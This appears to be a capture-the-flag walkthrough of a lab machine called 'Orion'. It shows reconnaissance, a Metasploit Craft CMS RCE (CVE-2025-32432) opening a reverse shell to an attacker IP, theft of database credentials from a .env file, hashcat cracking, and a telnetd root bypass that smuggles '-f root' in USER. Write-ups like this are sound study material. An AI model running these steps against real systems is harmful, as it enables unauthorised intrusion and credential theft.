

# Orion Writeup

* Target IP: `10.129.6.235`

## 0-1. Reconnaissance – Nmap

I started with a basic Nmap scan.

```bash
nmap -vv -sC -sV 10.129.6.235
```

```text
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Orion Telecom
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 was open. When I accessed the target by IP address, it redirected me to `orion.htb`.

```bash
curl -I http://10.129.6.235
```

```text
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Location: http://orion.htb/
```

So I added the hostname to `/etc/hosts`.

```bash
echo "10.129.6.235 orion.htb" | sudo tee -a /etc/hosts
```

## 0-2. Reconnaissance – FFUF

Next, I used FFUF to discover web paths.

```bash
ffuf -u http://orion.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

```text
.git                    [Status: 403, Size: 162, Words: 4, Lines: 8]
.git/config             [Status: 403, Size: 162, Words: 4, Lines: 8]
.git/index              [Status: 403, Size: 162, Words: 4, Lines: 8]
.git/HEAD               [Status: 403, Size: 162, Words: 4, Lines: 8]
.htaccess               [Status: 403, Size: 162, Words: 4, Lines: 8]
.htpasswd               [Status: 403, Size: 162, Words: 4, Lines: 8]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8]
index.html              [Status: 200, Size: 9689, Words: 2708, Lines: 183]
index                   [Status: 200, Size: 12272, Words: 1076, Lines: 386]
index.php               [Status: 200, Size: 12272, Words: 1076, Lines: 386]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

The `admin` endpoint looked especially interesting.

## 1. Foothold

I visited:

```text
http://orion.htb/admin
```

It redirected to `/admin/login`.

The login page exposed the Craft CMS version:

```text
Craft CMS 5.6.16
```



After searching for this version, I found that Craft CMS 5.6.16 is vulnerable to CVE-2025-32432.

I used the Metasploit module:

```text
exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

The important option here was `VHOST`, because the application expects the `Host` header to be `orion.htb`.

```text
set VHOST orion.htb
set RHOSTS 10.129.6.235
set LHOST 10.10.16.22
run
```

```text
[*] Started reverse TCP handler on 10.10.16.22:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (3090404 bytes) to 10.129.6.235
[*] Meterpreter session 1 opened

(Meterpreter 1)(/var/www/html/craft/web) >
```

I got a Meterpreter session as `www-data`.

```bash
whoami
www-data
```

## 2. User Flag

The initial shell was running as `www-data`, so I started looking for application configuration files.

The Craft CMS application was located in:

```text
/var/www/html/craft
```

```bash
ls
```

```text
bootstrap.php  composer.lock  craft    templates  web
composer.json  config         storage  vendor
```

I found a `.env` file.

```bash
ls -la
```

```text
-rw-rw-r--  1 www-data www-data    718 Mar  6 11:24 .env
-rw-rw-r--  1 www-data www-data    411 Nov 18  2025 .env.example.dev
-rw-rw-r--  1 www-data www-data    623 Nov 18  2025 .env.example.production
-rw-rw-r--  1 www-data www-data    619 Nov 18  2025 .env.example.staging
```

Reading the `.env` file revealed the database credentials.

```bash
cat .env
```

```text
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```

I used these credentials to connect to the local MySQL/MariaDB database.

```bash
mysql -h 127.0.0.1 -P 3306 -u root -p orion
```

```text
Enter password: SuperSecureCraft123Pass!

MariaDB [orion]>
```

I listed the tables.

```sql
SHOW TABLES;
```

```text
+----------------------------+
| Tables_in_orion            |
+----------------------------+
| addresses                  |
...
| userpreferences            |
| users                      |
...
+----------------------------+
```

The `users` table was the most interesting.

```sql
SELECT * FROM users;
```

This revealed a password hash for the `admin` user. The email address indicated that the user was likely `adam`.

```text
adam@orion.htb
$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```

The hash format starts with `$2y$`, which means it is a bcrypt hash.

I cracked it with Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

The password was:

```text
darkangel
```

I then checked whether the password was reused for SSH.

```bash
ssh adam@10.129.6.235
```

```text
adam@10.129.6.235's password:
```

The password worked, and I got a shell as `adam`.

```bash
adam@orion:~$
```

Then I read the user flag.

```bash
cat /home/adam/user.txt
```

## 3. Privilege Escalation

After getting access as `adam`, I checked for internal services.

```bash
ss -tulpn
```

```text
tcp LISTEN 0 10   127.0.0.1:23     0.0.0.0:*
tcp LISTEN 0 80   127.0.0.1:3306   0.0.0.0:*
tcp LISTEN 0 128  0.0.0.0:22       0.0.0.0:*
tcp LISTEN 0 511  0.0.0.0:80       0.0.0.0:*
```

Port `23` was listening locally. This is usually Telnet.

I confirmed that the service was reachable.

```bash
nc -vz 127.0.0.1 23
```

```text
Connection to 127.0.0.1 23 port [tcp/telnet] succeeded!
```

Then I checked the telnet version.

```bash
telnet --version
```

```text
telnet (GNU inetutils) 2.7
```

GNU inetutils telnet 2.7 is vulnerable to CVE-2026-24061, which can allow authentication bypass through the `USER` environment variable.

The exploit was very simple.

```bash
USER="-f root" telnet -a 127.0.0.1
```

This gave me a root shell.

```text
root@orion:~#
```

Then I read the root flag.

```bash
cat /root/root.txt
```

## 4. How the Telnet Privilege Escalation Works

The command was:

```bash
USER="-f root" telnet -a 127.0.0.1
```

The structure is:

```text
USER="-f root"
```

This sets the `USER` environment variable to `-f root`.

```text
telnet -a
```

The `-a` option enables automatic login. The telnet client sends the value of the `USER` environment variable as the login name.

In a normal situation, this should simply be treated as a username.

However, in the vulnerable telnetd implementation, the value is passed in an unsafe way to the `login` program.

As a result, the login process behaves as if it received:

```bash
login -f root
```

The `-f` option tells `login` to treat the user as already authenticated.

So instead of asking for the root password, it logs in as root directly.

In short:

```text
USER="-f root"
  ↓
telnet -a sends "-f root" as the login name
  ↓
vulnerable telnetd passes it unsafely to login
  ↓
login -f root
  ↓
root shell without a password
```
